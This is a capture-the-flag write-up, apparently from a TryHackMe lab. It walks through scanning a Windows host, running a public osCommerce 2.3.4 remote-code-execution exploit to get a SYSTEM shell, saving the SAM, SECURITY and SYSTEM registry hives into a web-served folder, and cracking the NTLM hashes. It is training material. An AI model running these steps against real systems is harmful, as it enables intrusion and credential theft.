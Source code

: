 Voici un certain nombre de règles à faire respecter pendant la formation :
- Interdiction de lire des WU
- Vous devez trouver un moyen pour récupérer les bases sensibles en local
- Brute force juste autorisé pour crack des hash

Liste des outils qui peuvent vous servir : 
- NMAP
- Searchsploit
- Metasploit
- Mimikatz
- John/Hashcat

```
exegol start THM full --vpn .\Drachh.ovpn --desktop
```

# Write - Up
## Reconnaissance

Check if the box is up and responding: 

```
Oct 09, 2024 - 10:52:02 (CEST)] exegol-thm /workspace # ping 10.10.216.71
PING 10.10.216.71 (10.10.216.71) 56(84) bytes of data.
64 bytes from 10.10.216.71: icmp_seq=1 ttl=127 time=248 ms
64 bytes from 10.10.216.71: icmp_seq=2 ttl=127 time=170 ms
64 bytes from 10.10.216.71: icmp_seq=3 ttl=127 time=191 ms
64 bytes from 10.10.216.71: icmp_seq=4 ttl=127 time=214 ms
64 bytes from 10.10.216.71: icmp_seq=5 ttl=127 time=236 ms
^C
--- 10.10.216.71 ping statistics ---
5 packets transmitted, 5 received, 0% packet loss, time 4006ms
rtt min/avg/max/mdev = 170.132/211.699/247.870/28.513 ms
```

Network scan:

```
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
8080/tcp  open  http-proxy
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49159/tcp open  unknown
49160/tcp open  unknown
```

There's a webapp running on the server let's check it. 

![[Pasted image 20241009110402.png]]


![[Pasted image 20241009110423.png]]

URL: `http://10.10.216.71:8080/oscommerce-2.3.4/catalog/` so the webapp is using a CMS (Content management system) called **os-commerce** in version `2.3.4`. Let's search for some exploits :


![[Pasted image 20241009110604.png]]

Then we retrieve the exploit with :`searchsploit -m php/webapps/50128.php`
And we run it with the correct URL :

```
[Oct 09, 2024 - 11:06:49 (CEST)] exegol-thm /workspace # python3 50128.py http://10.10.216.71:8080/osco
mmerce-2.3.4/catalog/
[*] Install directory still available, the host likely vulnerable to the exploit.
[*] Testing injecting system command to test vulnerability
User: nt authority\system

RCE_SHELL$ whoami
nt authority\system
```

Checking location of SAM base: 

```
RCE_SHELL$ dir C:\windows\system32\config
 Volume in drive C has no label.
 Volume Serial Number is 14AF-C52C

 Directory of C:\windows\system32\config

11/27/2019  08:37 PM    <DIR>          .
11/27/2019  08:37 PM    <DIR>          ..
01/15/2017  11:39 PM            28,672 BCD-Template
11/27/2019  08:35 PM        30,932,992 COMPONENTS
11/27/2019  08:35 PM           262,144 DEFAULT
07/14/2009  03:04 AM    <DIR>          Journal
01/24/2017  11:21 PM    <DIR>          RegBack
11/27/2019  07:12 PM           262,144 SAM
11/27/2019  08:35 PM           262,144 SECURITY
11/27/2019  08:35 PM        22,806,528 SOFTWARE
10/12/2024  01:17 PM        13,107,200 SYSTEM
11/20/2010  09:48 PM    <DIR>          systemprofile
01/15/2017  03:46 PM    <DIR>          TxR
               7 File(s)     67,661,824 bytes
               6 Dir(s)  19,503,869,952 bytes free
```

Copying sensitive databases in the os-commerce file manager will make those available online. 

```
RCE_SHELL$ reg.exe save hklm\sam SAM
The operation completed successfully.

RCE_SHELL$ reg.exe save hklm\security SECURITY
The operation completed successfully.

RCE_SHELL$ reg.exe save hklm\system SYSTEM
The operation completed successfully.
```

URL : http://10.10.106.108:8080/oscommerce-2.3.4/catalog/install/includes

![[Pasted image 20241012145330.png]]

Then we download the databases and we can extract the NTLM hash of each session and crack the passwords. 

![[Pasted image 20241012145706.png]]

![[Pasted image 20241012145903.png]]

